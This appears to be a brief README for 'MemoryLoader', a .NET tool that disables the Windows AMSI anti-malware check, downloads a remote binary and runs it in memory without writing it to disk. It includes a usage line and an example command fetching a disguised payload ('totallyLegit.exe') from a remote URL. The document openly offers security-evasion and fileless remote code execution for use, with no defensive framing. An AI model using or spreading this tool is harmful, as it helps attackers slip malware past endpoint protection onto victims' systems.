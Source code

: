 # MemoryLoader

A .NET binary loader that bypasses AMSI checks. It will patch AMSI, download a remote binary, and execute it in memory without the binary every hitting disk.

Usage:

./MemoryLoader.exe [URL_TO_PAYLOAD]

Example:  
.MemoryLoader.exe http://example.com/totallyLegit.exe

